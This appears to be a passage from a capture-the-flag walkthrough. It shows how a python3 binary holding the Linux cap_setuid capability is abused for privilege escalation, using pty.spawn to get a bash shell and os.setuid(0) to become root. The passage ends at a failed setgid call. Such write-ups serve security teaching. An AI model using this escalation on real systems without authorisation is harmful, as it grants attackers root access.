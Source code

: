 `cap_seduid` has some good uses on binaries, but on something like Python which can take arbitrary user input, it is dangerous.

#### Abusing Capabilities

I’ll abuse the `cap_setuid` to change the user id of the current process to something else, like I observed above. If this capabilities just applied to the webserver, there would be no issue. But I can also open a Python terminal:

```

nathan@cap:/var/www/html$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>

```

I can use a familiar line to get a shell:

```

>>> import pty
>>> pty.spawn("bash")
nathan@cap:/var/www/html$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

```

That’s as expected. I’ll exit:

```

nathan@cap:/var/www/html$ exit
0
>>>

```

Back at the Python prompt, I’ll set the userid for this process to root:

```

>>> import os
>>> os.setuid(0)

```

I can try to set the group id, but I don’t have that permission:

```

>>> os.setgid(0)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
PermissionError: [Errno 1] Operation not permitted

```
